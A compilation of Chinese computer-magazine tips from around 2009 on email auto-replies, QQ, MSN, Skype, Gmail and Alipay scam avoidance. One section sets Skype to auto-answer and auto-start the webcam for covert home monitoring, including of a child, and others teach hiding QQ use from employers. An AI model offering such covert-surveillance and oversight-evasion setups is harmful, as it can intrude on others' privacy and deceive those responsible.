因为工作需要，每天都会收到大量邮件，可是又没时间一一回复，怎么办？要知道，给你发邮件的人，可能正日盼夜盼呢。别着急，这里教大家一招“自动回复”，既可以不占用你的时间，又可以不让发信的人等得太心焦。下面先以Outlook 2007（以下简称为Outlook）为例给大家详细演示，最后再简要给出其他邮箱工具的自动回复技巧。

首先启动Outlook，单击工具栏“新建”按钮（快捷键Ctrl+N）打开邮件撰写对话框，像平时回复邮件一样写一些回复内容，如“邮件已收到，本人因工作忙不能一一回复，敬请谅解”之类的。写完回复内容后，点击对话框左上角的Office按钮，选择“另存为→另存为”，将保存类型设置为“Outlook模板（*.oft）”，保存邮件，然后关闭撰写邮件对话框转到Outlook主界面。

接下来执行“工具→规则和通知”菜单命令，在打开的窗口中点击“新建规则”启动规则向导，选择步骤1中“从空白规则开始→邮件到达时检查”，单击“下一步”。在下面的界面中，步骤1中勾选“发件人为个人或通讯组列表”，在步骤2中点击“个人或通讯组列表”链接打开规则地址窗口，双击所有需要自动回复的联系人，将它们加到“发件人”列表中，点击“确定”返回。需要注意的是，选择具体的发件人，是为了避免连垃圾邮件也会自动回复。如果此规则不能满足你的实际要求，在步骤1中还有其他规则供选择。

继续单击“下一步”，在步骤1中勾选“用特定模板答复”，再点击步骤2中的“特定模板”链接，选择前面我们创建的模板（见图）。继续单击“下一步”，此步骤可以将不需要自动回复的邮件排除掉（比如标题中包含“不必回复”字样的邮件）。再单击“下一步”，对前面的设置检查无误后，点击“完成”即可。以后，在收到指定的那些联系人的邮件时，Outlook会自动以你设定好的模板进行回复的，省时省力。

除Outlook外，其他邮箱工具同样可以设置自动回复。
★使用QQ邮箱的朋友，登录自己的QQ邮箱后，点击“设置”，向下翻到“假期自动回复”，选择“启用”，再在下面设置自动回复的内容，最后点击“保存更改”即可。其实大多数Web邮箱的设置与此类似，在“设置”中一般都能找到自动回复的选项，只不过位置或稍有不同罢了。163、Gmail、新浪、搜狐等用户，都可以找找看。
★邮件客户端软件中，Foxmail的用户群也非常广，其实Foxmail同样可以设置自动回复。启动Foxmail后，点击“邮箱→过滤器”，单击“新建”打开过滤器对话框，在“条件”选项卡下，勾选“来信”、“发件人包含”。接着切换到“执行”选项卡，勾选“自动回复”，再点击“信纸”设置自动回复的内容，确定即可。



## E-mail搭起的个人共享网站

小米是个热心的网虫，一旦在网上找到好玩的东西，总是愿意跟朋友一起分享。开始时她用的是最原始的共享方法：将东西上传到网盘中，然后将下载地址发给朋友。这样麻烦不说，而且她的朋友必须将文件下载到本地之后才能打开查看。



首先给post@posterous.com这个地址发送一封电子邮件。记住，不要把它看成是一封简单的邮件，而要把它视为一篇网络文章，邮件标题即网文标题，正文即文章的内容，附件即是你想要共享给好友的资源。附件可以是照片、电影视频、MP3音乐、Office办公文档及其他所有类型的文件。当然，即使你不输入标题和内容也没关系。稍等片刻，Posterous网站（http://posterous.com/）即会给你回复邮件，如图1所示，点击其中的“Your new post”（你的新贴），将发现Posterous已经自动为你创建好了个人网页，网址形式为“http://你的用户名.posterous.com/”，其中你的用户名一般即是你的邮箱账号。现在把你的个人网站地址发给亲朋好友，就可以共享你的资源了。如果发送的是影音文件，好朋友们可以直接在线欣赏，也可以点击Downloads下载文件（见图2）。

以后，再想共享文件时，以同样方法发送邮件即可，浏览网址是固定不变的，不用再重新通知好友。除了影音、图像文件外，Posterous网站还支持包括DOC、PPT等Office文档，其他好友可直接打开查看而无须安装Office软件，方便吧。



《电脑爱好者》2009年第2期软件栏目中，介绍了Zapr的使用，它可以为本地文件产生一个链接，方便快速共享给好友。不过这种方法需要两人同时在线。如果两人不方便同时在线的话，则本文方法是个不错的选择。

### 借助Google工具栏收发Hotmail邮件

文/王志军

相信很多朋友已经用上了正式版本的IE8，在满足于网页快讯、加速器强大功能的同时，其实我们也可以通过Google工具栏实现收发Hotmail邮件的任务，这样就不需要在Web页面中进行操作，也不需要在Windows Mail或Foxmail等客户端中进行相关的设置了。

#### 第1步：安装Google工具栏

需要指出的是，我们需要安装5.0以上版本的Google工具栏才能添加按钮。访问http://toolbar.google.com/labs/intl/zh-CN/，可下载并安装Google工具栏的实验室版本。

#### 第2步：添加按钮

单击工具栏上“按钮库”按钮，从下拉菜单中选择“打开完整按钮库”，或者直接访问http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&hl=zh-CN，在这里可以查看到Hotmail按钮，或者在页面顶部的搜索框中输入Hotmail进行搜索，单击“添加到工具栏”按钮，如图1所示，确认之后即可将Hotmail按钮添加到工具栏中。



#### 第3步：设置邮箱账户

初次使用时，我们需要对邮箱账户进行相应的设置，如图2所示，按照提示设置即可。再次访问时就可以在这里直接查看邮箱的状态。值得一提的是，查看邮件时并不会跳转到Hotmail邮箱的Web页面，而是在这个预览框中直接显示，很方便吧。



如果仅仅只是需要了解收件箱中是否有新邮件到来，那么定期查看这个预览框就完全足够了。如果你需要执行转发、回复、删除等操作的话，那么请将预览框右侧的滑块拖曳到最底部，在这里可以发现上一封邮件、移至、下一封邮件、答复、全部答复、转发、删除、返回文件夹、主页等按钮，功能非常丰富。

### 小心支付宝交易中的陷阱

文/TMG lx

淘宝网购交易离不开支付宝，而支付宝不仅仅是淘宝交易中的付款方式，同时也是针对其他多种网上交易的安全付款服务。其实质是一种付款的信誉中介机构，在买家确认购买商品后，会将钱先付给支付宝由其暂时保管，收到货物后进行确认，支付宝再付给卖家。表面看起来，这种交易过程是很安全的，但并不意味着使用支付宝交易就万事大吉。在这之中还是存在许多可能的陷阱。

### 陷阱一：不验货

很多人在网上购物中，经常会忽略验货环节，在收到货物时往往不验货就签收了。很多JS利用消费者的这种心理，将假冒伪劣商品寄过去，当你发现上当了，却没有可以相关的证据。而淘宝在纠纷处理中，按照规定需要提交他用EMS发货给你的证据，如果无法提交，你就只能是哑巴吃黄连，有苦说不出。

对策：小心为上。要想避免这种情况，只能不怕麻烦，在收货的时候要小心一些（见图）。特别值得注意的是最好收到货时立刻当着快递人员打开，如果货物不符可以拒收，并让快递人员给有关证明，然后联系卖家，商议相关事宜。



### 陷阱二：不用旺旺

在淘宝购物的时候，所有交易最好在旺旺上谈。这不仅仅是方便的问题，更重要的是如果后期货物有问题，在淘宝申诉的时候，所提交的证据必须是旺旺的。就有部分JS，要求在QQ上交谈，然后当你付款后却不发货，而你要投诉却证据不足。

对策：使用旺旺进行交易。因为其他QQ、MSN等即时通信工具所提交的证据，淘宝网一律不予支持。

### 陷阱三：改为汇款

交易开始都很顺利，但到买家拍下东西后，卖家以各种理由说支付宝不能支付，拒绝用支付宝交易，让买家直接汇款给他，这时候如果买家拒绝汇款，则会以投诉你“拍下不买”来相威胁，直至你汇款给他们。

对策：坚持一点，无论如何都不要直接汇款给他们。当他们说支付宝不能用，而让你用汇款时，你就需要提高警惕，这很有可能是一个骗局。如果卖家要投诉你，你可以反过来投诉他“卖家拒绝使用支付宝交易”。

网上购物，安全意识很重要，大家一定要提高警惕。加上，现在网上骗子们的手段还在不断地花样翻新，我们更要做好自我保护工作。作为淘宝中很重要的支付环节，支付宝的使用更要多加注意了。

### 邮件发送地一目了然

文/王志军

我们知道，Dreammail的邮件来源追踪功能可以显示发件人所在的国家和地区，甚至可以具体到某个部门、某栋楼。但可能你并不愿意安装Dreammail这样的客户端程序，而是更习惯于通过Web的方式收发邮件，例如很多朋友都在使用的Gmail。

不过，虽然我们可以在Gmail的签名中添加位置信息，显然是不准确的，毕竟可能会在异地使用Gmail发送邮件，但如果每次手工添加位置信息，既麻烦也很不方便。其实，Gmail可以利用Gears自动获得位置信息，只需要经过简单的设置即可在邮件中附带位置信息，从而让收件人查看到这些信息，从而减少邮件被列入黑名单的烦恼。

#### 第1步：启用实验室功能

默认设置下，Gmail并未自动启用离线功能，需要用户在“实验室”选项卡中手工启用。登录Gmail之后进入设置页面，切换到“实验室”选项卡，将“离线版”和“签名中显示位置”两个项目设置为“启用”状态，单击页面底部的“保存更改”按钮使其生效。

#### 第2步：安装Gears

返回Gmail主界面，单击页面右上角的“离线”按钮，此时会弹出一个提示对话框，确认之后按照提示完成Gears的下载和安装工作，完成安装之后需要重启浏览器才可以生效。完成Gears的安装之后，进入Gmail的设置页面，切换到“离线版”选项卡，选择“为此计算机启用离线版Gmail”，一方面可以在离线状态下使用Gmail，另外也可以存储位置信息，保存更改使其生效，此时我们会看到图1所示的对话框，这里当然是选择“我信任该网站。允许其使用Gears。”，确认之后关闭对话框。



#### 第3步：设置签名

再次进入Gmail的设置页面，切换到“常规”选项卡，在这里可以任意设置相应的签名信息，但最重要的是务必勾选Append your location to the signature（附加你的位置信息到签名中）复选框，这样才可以将当前的位置嵌入签名之中，保存更改使其生效。

完成上述设置之后，以后每次在Gmail中撰写邮件或进行回复时，邮件正文的末尾都会自动添加包括位置信息在内的签名，效果如图2所示，这可是如假包换的准确位置哟。



### 以邮件的名义创建Google在线文档

文/王志军

相信很多朋友都会使用Google Docs编辑在线文档，这样只要拥有一个Google账号，就可以在任何一台计算机上完成文档编辑的操作，的确是相当的方便。不过，上传文档并不是一件轻松的事情，其实我们可以通过邮件的名义创建Google在线文档，这样就简单多了。

首先请访问http://docs.google.com/，登录之后单击工具栏上的“上传”按钮，此时会进入上传页面，请注意页面下方的内容，在“用电子邮件发送您的在线文档和文件”区域，我们会看到一个“*@prod.writely.com”的超长邮箱地址，这是一个专属于你的邮箱地址，“*”由Google账号、数字、英文等字符混合组成，以后我们就可以使用上述邮箱地址发送在线文档和文件了。

现在，我们就可以通过邮件来创建Google在线文档，如图1所示，收件人地址请使用刚才所获得的专属邮箱地址，邮件主题即在线文档的标题，在线文档的正文可以写入邮件正文。如果附件格式受到Google文档的支持（不支持电子表格），每个附件都将被自动转换为HTML格式的在线文档，而附件的文件名将作为在线文档的标题。

需要提醒的是，当这封邮件带有附件时，邮件正文将会被自动忽略。邮件发出之后，在线文档很快就会被创建成功（见图2），当然如果网络条件不太好的话，可能会需要稍作等待。





### QQ宠物喂养不完全手册

宠物成长的各种指标是决定你如何呵护她的重要标准，当您开启宠物之后，在屏幕右下角会出现宠物图标，将鼠标移到上面以后就可以出现如下面的图表：这里面分别有各种指标，重要的是下面几种。饥饿、清洁、健康、心情，是宠物生长的重要指标，右侧的绿色长条表明各指标的需求程度，绿色表示尚好，等到变了黄色甚至红色就要采取行动了！简单的说，饿了就要吃东西，脏了身上就会痒痒，要洗澡，否则就会得病，健康度就要下降！以上工作都做好了，心情才会好哟！当您看到这样的提示时，你就得开始照顾他了！在宠物身上点击右键，可以弹出详细的喂养菜单：喂食是最基本的技能。

打工时，消耗18.33元宝/小时：
1.  饥饿值补给13.33元宝（60*4=240点——60/1080*240=13.33））
2.  清洁值补给元宝（60*3=180点——20/720*180=5）

1——4级，20元宝/小时，余1.67元宝/小时
5——9级，24元宝/小时，余5.67元宝/小时
10——14级，28元宝/小时，余9.67元宝/小时
15——19级，30元宝/小时，余11.67元宝/小时
20——24级，32元宝/小时，余13.67元宝/小时
25——29级，34元宝/小时，余15.67元宝/小时
30级以上，36元宝/小时，余17.67元宝/小时

其实在您领养到宠物之后，QQ为每位用户事先准备了500宠物元宝，所谓“宠物元宝”，就是在宠物村通行的货币，使用它可以购买物品，看医生和学习，您需要学会充分合理地利用。如果您的元宝不够用，有两种方式可以获得：当您购买宠物物品时，系统会优先消耗您的宠物元宝，当您的宠物元宝不足支付时，可以用Q币支付，每Q币可替代100个宠物元宝。如果您让Q宠宝贝去打工，那么Q宠宝贝打工所挣来的钱将足够支付您的Q宠宝贝的基本生活。

有宠物后可以找天使坏坏领奖品，每阶段都有领，还有就是找六一的NPC和庆生的小兔NPC领奖品。5级以上可以找水晶蛋和每天一次加年华的牛样比赛随机得奖品（免费）；每周未10级以上可以免费参加寻宝得神秘大奖。



宠物的喂食不要超过或等于饥饿值的60%，心情值最好保持在（打工=600，学习=900，放养1000，心情值影响成长的速度）脏了，吃撑了，心情差了都要生病的，生病就会花费大量元宝（见图），所以请大家尽量注意。

在最佳状态可以让你的Q宠升到8级，就可以打工了。一天分6个小时打工6个小时生长，这样很快就可以升到10级。10级以后打工挣的钱就会多了。你可以选择升级还是挣钱。只要在线就打工，不要闲，你会发现元宝多得花都花不完。

### QQ群消息 只接收我需要的

对于喜欢用QQ聊天的朋友来说，相信每个人都或多或少地加入了几个QQ群吧！于是问题来了——如果我们阻止一切群消息，就有可能会错过一些比较重要的群信息；反之，则会被很多无聊的群消息所打扰。那么，怎样才能在不错过重要的群消息的同时，又能够避免被那些无聊的垃圾信息所打扰呢？下面，笔者就将自己的一点经验来和大家共同分享。

先登录自己的QQ号并单击QQ主窗口中的“QQ群”按钮，展开对应的列表框；然后右击某个需要限制接收群消息的QQ群，选择“群消息设置→设置屏蔽时关注内容”，打开“设置关注内容”对话框（见图左边）；再单击该对话框中的“设置成员”按钮，这时在弹出的列表框中我们就可以看到该群下所有的成员了（见图右边）；接着勾选这个群成员列表中需要关注的QQ好友左边的复选框，将其添加到“设置关注内容”对话框中（见图A处）；最后在图1中B处所示的五个文本框中输入自己感兴趣的一些关键字以对该群下所有成员的聊天信息进行过滤（见图B处）并单击“确定”按钮即可。

完成上述设置后，当图1中A处我们所添加的群成员发出了聊天信息，我们可以在第一时间得到通知；当群中所有成员的聊天信息包含我们所添加的“选题”、“样刊”等关键字时，这样的信息我们同样可以及时收到。至于群中其他的聊天信息，则被自动屏蔽了。



在实际操作中，建议大家将对自己十分重要的QQ群分别执行上述设置，以过滤掉群中所有无用的垃圾信息；而对自己无关痛痒的其他QQ群，可以将这些QQ群的群消息直接屏蔽掉即可；这样可以提高我们过滤所有QQ群中对自己无用的垃圾信息的效率。

### 用Skype实时监控家中的情况

出门在外，儿子在家干什么呢？家中的情况如何呢？这是很多忙忙碌碌的上班族最为关心的。要侦察到这一切，很多朋友总是抽空偷偷摸摸回家跑，费时费事不说，如果被BOSS发现被扣上不安心工作的罪名并扣发资金，那糗可就出大了。有没有更好的办法呢，其实，只要家中的电脑安装有Skype并有一个摄像头，我们就可以远控千里，在千里之外监控家中的一切，是不是很神奇？！下面一起来看看实现的过程……

第1步：假设我们原来有一个Skype账号，账号名是skype001，现在还需要重新申请一个Skype新账号，假如为skype002，专门放在被监控地的电脑上使用。
第2步：安装好摄像头驱动，测试并保证摄像头在Skype上能正常运行。接下来，把自己现有的Skype账号（skype001）添加为新账号（skype002）的联系人。接下来，点击“工具→选项→视频→启用视频”来同时开启两个帐户的视频功能。
第3步：打开新帐户(skype002)，点击“工具→选项→呼叫”，然后单击“显示高级选项”按钮，然后选中“自动应答呼叫”和“自动开启我视频”（见图1）。
第4步：点击新帐户(skype002)“工具→选项→视频”，勾选在“向以下用户显示我已经启用视频”栏下的“我的联系人列表中的用户”单选按钮（见图2）。
第5步：点击新帐户(skype002)“工具→选项→“隐私”，分别选中“只有我的联系人可以呼叫”和“只有我的联系人可以发送即时消息”，这样可以做到陌生人无法拨打新帐户的Skype和发送垃圾信息从而保证只有我们自己可以拨打新帐户并监控视频。
第6步：接下来，还要设置一下让家中的电脑开机自动启动Skype并以skype002账号登录。单击菜单栏的“工具”→“选项”→“常规”，然后选中“在启动Windows时启动Skype”复选框，然后单击“保存”按钮。





一切设置完成后，无论我们在哪里，当我们想查看家中的情况时，只需打开并运行Skype，以原帐户(skype001)登录，用skype001呼叫新帐户skype002，就会自动建立联接，并打开视频，这样无论我们在何时何地都可以监控自己想监控的一切了。

### 另辟蹊径，令MSN 2009多开

Windows Live Messenger 2009依旧沿袭了MSN的一贯的霸道作风，用户每次只能用一个账号进行登录，要想切换到另一个账号则只能注销并重新登录。对于同时有多个MSN账号的朋友非常的不爽，无法同时打开多个账号，有心使用MSNShell等第三方的多开工具，但MSNShell不支持最新版本的MSN 2009。其实，我们只需略施小计，就可以令MSN 2009同时使用多个账号登录。

打开文本编辑器，比如记事本，录入如下内容：

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Live\Messenger]
"MultipleInstances"=dword:00000001
```

录入完毕，另存为“MultiLive.reg”。然后双击此文件，将注册表信息导入到注册表编辑器中。现在，重新启动MSN 2009试试，是不是可以多开了。

### 让MSN 2009不再令微软拼音输入法“休克”

很多新近升级到Windows Live Messenger(MSN) 2009的朋友往往会发现升级后微软拼音输入法用不了了，在聊天窗口中只能输入英文而无法输入中文，怎么回事？这是MSN 2009的一个BUG，两者不兼容造成的，我们可以通过下面两种方法加以解决。

1.  权宜之计
    将MSN 2009的“高级文字服务”关闭，即可解决问题。首先关闭MSN，在桌面上右击MSN图标，打开属性对话框，选择“兼容性”选项卡，勾选“为这个程序关闭高级文字服务”。
    再打开MSN就可以发现，不管什么情况下都可以输入中文了。
2.  彻底解决
    微软已经发现了该BUG，并迅速发布了其补丁程序，因此，我们只需下载安装这一补丁程序即可彻底解决这一故障，补丁文件的下载地址：http://www.microsoft.com/downloads/details.aspx?familyid=0E56788B-32E8-459D-B9C9-B9155A4836B4&displaylang=zh-cn。

### 彻底隐藏QQ图标

很多人都有这样的体会，办公室不许上QQ，你即使点了最小化可是右下角还是有个QQ的图标，很是显眼。有没有办法能上QQ而不被老板发现呢？其实很简单，我们马上来让QQ在任务栏上消失得无影无踪。

启动QQ以后，单击“菜单”，在弹出的快捷菜单中选“系统设置”，选择“基本设置”标签，取消“在任务栏显示图标”和“自动弹出信息”的小钩（如图）。如果你还觉得不过瘾，还可以在“热键设置”处自定义热键，这样呼叫你的QQ就有“密键”了。最后在“声音设置”标签中，把“打开声音”取消选择即可。再来看看系统托盘中的QQ图标不见了吧？现在就把QQ最小化，这样QQ在桌面上就消失得无影无踪了。



如果你自己都把“密键”忘了，你只能按下Ctrl+Alt+Del启动“任务管理器”；然后在“进程”里把QQ关了再开。

如果有好友向你发消息或者你想跟好友说话，只要你按你的“密键”QQ便会随时可以被你呼叫出来，十分方便和隐蔽。

### 分组备份QQ好友名单 你也能行

对于喜欢用QQ聊天的朋友来说，相信大家的QQ号里边一定有许多好友，而为了防止由于QQ号码被盗等各种原因造成所有好友的QQ号码丢失，提前将自己QQ号里边的好友信息备份出来是很有必要的。虽然QQ软件本身具有导出QQ好友的资料的功能，但是导出的文本中有不少垃圾信息；不仅如此，自己QQ号码中好友的分组信息也丢失了。那么，在备份QQ好友的资料时，能不能过滤掉无用的诸如“年龄”、“性别”等垃圾信息并按照自己QQ号码中设置的好友分组方式进行自动分组呢？答案当然是肯定的。下面，笔者就给大家介绍一下具体的操作步骤。

```xml
<?xml version="1.0" encoding="utf-8"?>
<friend uin="...9735">
  <qq>
    <node label="我的好友">
      <node data="6...328" label="orientunique[...4328]" />
      <node data="...108" label="啄木鸟[...108]" />
      <node data="...407" label="千千阙[...407]" />
    </node>
    <node label="BAT高手">
      <node data="...1417" label="不灭の屈兵[...1417]" />
    </node>
    <node label="IT作者">
      <node data="...97" label="我来自南京[...97]" />
      <node data="...2776" label="海鱼天阔[...2776]" />
    </node>
  </qq>
  <pp />
</friend>
```

先登录QQ秀的登录页面：http://show.qq.com/inc/login_box.html，然后输入自己的QQ号码、密码及验证码等信息，接着按下回车键打开“注册QQ秀”的页面，再在IE的地址栏中输入地址http://qqr ing.qq.com/xml_friend_list.php并再次按下回车键，这时就可以看到自己QQ号码中的所有好友信息了，如图。大家可以发现在如图所示的页面中，所有好友的列表信息是XML格式的；其中，data等号右边的是好友的QQ号码，label等号右边的是与之对应的QQ好友昵称及QQ号码（中括号里边的）；最后将图的页面中QQ好友的号码及昵称信息复制到一个文本文件中并保存到硬盘的任意位置即可。

> **小提示**
> 在执行上边的分组备份自己QQ好友名单的过程中，一定要先登录QQ秀的页面，然后执行后边的其他操作；否则，就打不开图中所示的QQ好友列表页面。

### 将QQ隐藏起来

在单位可能需要使用QQ，但并不是每个领导都同意使用QQ的，除了技术上的封锁，领导监视的目光也是很危险的，怎么才能悄无声息地使用QQ呢？

①打开QQ，进入系统设置窗口的QQ图标，在弹出菜单中选择“系统参数”，选择基本设置中的常规选项，去掉其中主面板中的“在任务栏显示图标”复选框前面的“√”（图1），确定后托盘中的小企鹅图标就立刻消失了。由此实现第一步隐藏。
②选择状态与提醒中的消息提醒选项，点击“会话消息提醒”后面的状态，设置为关闭，将好友上线提醒也一并关闭（图2）。
③把QQ窗口拖到显示器的四个边角中的任一个，QQ便会自动吸附并隐藏，由此实现了第二步隐藏！
④在基本设置中选择声音，将“开启声音提示”取消勾选，并选择屏蔽所有好友的炫铃功能，免得老板听到声音。经过上面的一番设置，基本可达到了“无声无息”的效果，应该可以满足你的要求了吧？



# 教你领养QQ宠物

在公园里，大家都会时常看到有人牵着自己的宠物狗逛来逛去，你是否也想养一只呢？养什么？企鹅你敢养吗？别紧张，这里说的是QQ宠物，就是你所见到的别人桌面上的那个可爱的小宠物，今天就教你来领养一个QQ宠物。

## 初步认识QQ宠物

你一定知道前一阵子风靡的电子宠物吧，小小的爱物曾令多少朋友们时时刻刻念念不忘。既然是宠物，那就要去关爱她，呵护她。现在QQ将这一功能移植到了网络之中，QQ宠物是一款基于QQ的桌面宠物养成休闲游戏，提供了宠物喂养、宠物打工、宠物结婚虚拟社区环境。想拥有它可以有两种方式：

-   1. 下载最新版的QQ，然后点击主面板右侧下的宠物图标（见图1），就会弹出领养界面。
-   2. 直接前往领养界面（http://client.pet.qq.com/pet.htm）。打开以后，输入号码与密码参加活动。



QQ特地采用了砸蛋这样一种随机的领养方式，活动面向所有QQ用户，领养前需登录领养企鹅的QQ号码，一个号码只能领养一只企鹅。每个QQ号码每周只有一次领养企鹅的机会，还可以成为QQ宠物粉钻贵族，可立即领养一只QQ宠物企鹅。

进入界面之后要先选择宠物类型，目前仅提供了两种宠物：QGG（Q哥哥）和QMM（Q妹妹），接下来选取“金宠物蛋”或者“银宠物蛋”，使劲用锤子砸吧！如果你看到金银花四溅，那么你就成功啦！恭喜您！如果你看到的是一只苍蝇，那就很遗憾了，换一个号码试试吧！

接下来需要注意的是QQ宠物软件不是捆绑在QQ里的，您需要即时下载。安装好新版QQ以后，如果您已经成功获得宠物，就会出现提示您下载安装包，耐心等待一系列安装步骤以后，可爱的QQ宠物就跃然你眼前啦！它的身后可是自己的家哦！

## 全面解析QQ宠物功能

-   群消息提醒——右键宠物选择“群消息提醒”设置了自己感兴趣的话题之后，一旦群里面有人提到这些话题，QGG就会拍打你的桌面，提醒你不要错过。可是设置话题的数量有限，而我希望QGG提醒我所有的消息，怎么办呢？只要在话题中设置一个“任何话”，QGG就会乖乖地把群消息一个不落的都提醒给你。
-   捉迷藏——把小家伙拖动到屏幕右边，让它一部分超出桌面范围，小家伙就“哧溜”一声，钻到桌面外边，只露出一对小眼睛，是不是很可爱呢？宠物被拖动到屏幕外边去，看不到了怎么办？只要双击一下右下角的小图标，它就会重新回到你的桌面上。
-   抓鼠标——把鼠标在它身上晃来晃去，小家伙一会想抓住你的鼠标，一会儿又被鼠标吓得鸡飞狗跳的，是不是很过瘾？
-   自由落体——把鼠标光标放在它身上，按住鼠标左键不要松，不要拖动，小家伙就被拎了起来，哈哈，它还不知道是怎么回事呢。把它拎到很高的地方松开鼠标左键，让它表演一次“自由落体”。快要着地的时候，它一个空翻，就站稳了；功夫不赖啊。如果在它下落的时候，落到窗口顶部，会更有意思哦。还会捂着眼睛往下跳呢！
-   来信提醒——打开宠物后，当有人给你发消息或者有系统消息的时候，宠物都会提醒你，如果你准备回复的话，可以点查看详细；如果不准备回复的，点忽略就可以了。



## 快速将未打包的QQ表情据为己有

好不容易在网上找到自己喜欢的QQ表情，但仔细一看，你可能就会马上痛苦起来。或许是站长为了便于浏览者直接观看到表情内容，而将每一个表情设置成单个图片在网页上显示，并没有提供打包下载。其实咱们完全没有必要去一个个“右击”，再选择“添加到QQ表情”添加，我们还有更快的办法将它们一网打尽。

选中所有要添加的QQ表情，进行“复制”后打开Word，进行粘贴。然后在菜单栏单击“文件→另存为”，把该文档另存为网页文件（见图）。



保存完毕，进入保存的目录，此时有个和保存文件名一样的文件夹，打开后便可发现自己想要的表情图片都在里面了。接下来只需通过QQ表情管理批量把自己喜欢的表情上传上去就OK了。

## 启用新版QQ 轻松找回聊天记录

小张曾经用QQ和某人聊过一个技术难题的解决方案，可偏偏想不起是跟谁聊的了，小张换过几次电脑，聊天记录懒得备份，就直接把以前电脑上的QQ文件保存了起来，面对三个QQ目录，他要如何进行搜索呢？

**第一步：** 解决这个问题，需要先安装QQ2009，登录后单击“小喇叭”按钮启动消息管理器，单击“导入导出→导入消息记录”（见图1），在弹出的数据导入向导中把自定义表情和消息记录全部勾选上，单击“下一步”，在导入方式的选择上，小张因为记得目录，所以选择“从指定目录导入”，选择好以前备份过的QQ文件后选择“导入”，很快本地聊天记录和自定义表情都被导入进来。



### 小提示

如果不记得备份的目录，这里可以选择“自动搜索”，如果只有聊天记录备份，可以选择“从指定文件导入”（见图2），选择MsgEx.db文件导入即可。这种导入只能导入对应QQ号的记录，如需导入多个QQ号，用QQ2009登录该号再导入即可。



**第二步：** 按照同样的方法，再从以前备份的其他两个QQ文件导入聊天记录和自定义表情，QQ2009会自动按时间和号码整合在一起。把3个QQ的聊天记录全部导完，通过对当时聊天情况的回忆，不断地更换关键字的搜索，很快，当时的解决方案查找到了，小张也长出一口气，公司的任务终于可以搞定了。

## 让你消失在QQ好友视线中

笔者最近想在QQ上找一位老友，想与他谈些事情。但查找其所在的群组，却无法找到他的头像，后来通过电话他才说其一直存在，然后马上在QQ上给笔者“闪”一下（发个消息）。笔者恍然大悟，原来他一直用非常巧妙的办法，藏于在好友列表中，不但头像变成空白，名称、QQ秀、QQ空间更新也全部隐藏。难怪笔者始终无法找到他。

## 将QQ头像和昵称设为空白

首先是头像，将QQ头像设置为“空白”的方式比较简单，随便找一张白色图片，更换为当前的QQ头像即可（注意：16级以下用户无法上传自定义头像）。其次是将网名进行“伪装”，其时你可能会说，我把我的名字全打成空格不就完了吗？不要以为用空格代替就可以不再显示自己的昵称。其实，在对方的资料中显示的就是“-”，而不是空；而且空格作为名字的时候在进入聊天室的时都是被视为非法用户的。你就要问了，那你的老友是如何实现的呢？其实DOS下的ASCII空格就很好用，其代码是255。

```
首先在“开始→运行”输入cmd打开DOS窗口，按住Alt按键输入255，接着松开Alt就可以在DOS窗口得到一个ASCII的空格，接下来就是把这个空格复制下来。在窗口模式下，单击鼠标右键在弹出菜单中选择“标记”，然后点击你刚才输入的空格，此时该空格显示为白色（见图），敲击回车键可以复制了，复制以后就可以粘贴到你的QQ昵称中了。
```

看看，是不是变成空的了，当然，你还可以把所有的资料逐个用粘贴的ASCII空格替换掉，你就彻底透明了，“Q间蒸发了”成为传说中可以隐形出入聊天室的大侠！

## 关闭QQ空间日志更新，不在头像边显示

随后便是伪装QQ头像下方显示的QQ空间更新，用户首先进入自己的QQ空间中，切换到“个人中心”选项，点击其中的“权限管理”并切换到“QQ相关设置”选项中。取消其中的“将QQ空间日志更新在QQ上”选项，好友便无法在QQ头像下方看到最新的QQ空间内容更新提示了。

## 轻松搞定刷钻恶意骚扰

开了个小店，经常与卖友交流，大家对刷钻及广告等骚扰非常反感。有时候自己正在休息，听到旺旺的响声，以为是顾客上门，爬起来却发现是被骚扰了，恨不得去挠他一下。其实旺旺具有防垃圾骚扰功能，点击设置，进入旺旺系统设置窗口，选择安全设置，点击防垃圾，如你不想接收到关于刷钻的信息，便可以在这儿新增一个关键字“刷钻”如图，这样所有包含刷钻的消息都会自动屏蔽掉，当然下面的“启用防垃圾”功能一定要勾选哟。





## 如影随形 非会员也能漫游聊天记录

文/辽宁/雁鸣

还在为不能完整保存与亲密爱人所有的聊天记录而烦恼么？还在为换台电脑就不能查阅到之前聊天记录重点信息而痛苦么？朋友们，告诉大家一个好消息，我们翻身得解放了！现在我们可以让聊天记录跟自己一起去漫游了，可以随时随地查看到之前在任意地方的聊天记录。

## ## QQ篇

从QQ 2007II正式版QQ就推出了聊天记录漫游功能，不过让非会员用户感到不满的是，此功能只对QQ会员开放，普通的QQ用户自然是无福使用了。不过，现在QQ有户有福了，借助于QQ 2009正式版提供的聊天记录上传功能我们就可以异地使用此前的聊天记录，享受VIP会员的尊贵待遇，QQ2009正式版的下载地址：http://im.qq.com/qq/2009/standard/download.shtml#

**第1步：** 打开QQ聊天窗口，单击聊天对话框下方的“消息记录”按钮，激活消息记录面板，可以看到右侧的窗格中比以前的QQ版本增加了“已上传”页面。首先，单击“本地”选项使当然窗口处于本地聊天记录页面，然后单击“点击上传聊天记录”按钮（见图1）。



**第2步：** 接下来，会弹出一个“上传消息记录”对话框，单击“开始上传”按钮。

**第3步：** 在接下来的对话框中我们可以选择是“上传当天消息记录”还是“选择一段时间内的消息记录上传”（见图2）。如果是选择一段时间内的消息记录上传还需要指定一下聊天记录的时间范围，最后单击“确定”按钮即可。



**第4步：** 当我们在异地，需要查看此前的聊天记录时，只需启动并登录QQ，激活消息记录窗口，然后单击“已上传”选项，在其下就可以看到以前上传的聊天记录文件了，选择其一个上传的聊天记录文件，就可以看到其中的聊天内容了（见图3）。



> **小提示：**
QQ对聊天记录的上传做了限制，每一个好友只能上传50KB的聊天记录。

## ## MSN篇

除了QQ，MSN是我们第二大即时通信工具，还有许许多多的MSN粉丝，对于喜欢MSN的朋友应该如何实现聊天记录的漫游呢？非常遗憾的是MSN并没有推出聊天记录漫游功能。不过，使用MSN的朋友也不必气馁，我们可以借助于一款小工具让聊天记录漫游。

## ### 软件小档案

| 软件信息 | 详情 |
| :--- | :--- |
| **软件名称** | All-in-one IM-History Client Suite (v1.0.12) |
| **软件大小** | 1.32MB |
| **软件语言** | 英文 |
| **软件类别** | 免费软件 |
| **应用平台** | Win9x/NT/2000/XP/2003 |
| **下载地址** | http://www.im-history.com/downloads |

